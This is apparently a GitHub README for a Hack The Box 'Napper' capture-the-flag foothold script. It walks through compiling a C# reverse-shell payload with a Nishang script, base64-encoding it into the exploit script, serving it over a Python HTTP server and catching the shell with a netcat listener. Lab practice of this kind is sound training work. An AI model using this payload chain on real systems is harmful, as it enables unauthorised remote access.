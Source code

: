 # Hack The Box Napper - HTB Napper user foothold python script

### After trying several methods without success, I combined a couple of codes shared by the community to make them work successfully for me.. 
This is just to gain initial access to the machine. 

Edit the shell.cs file with your respective IP and Nishang script or any script you prefer, compile it as follows (in my case, using Arch Linux): 
> Make sure that the namespace in the code is the same as that of the .cs file. 
```bash
mcs -out:shell.exe shell.cs
```
Once compiled, use the following command to obtain the base64-encoded string:

```bash
cat shell.exe | base64 | xclip -sel clip
```

Paste this string into the Python script (napper.py) replace the payload variable!. Once you have the Python script ready, start a local server with Python:

```bash
sudo python -m http.server 80
```

And listen for incoming connections:

```bash
nc -nlvp 4444
```
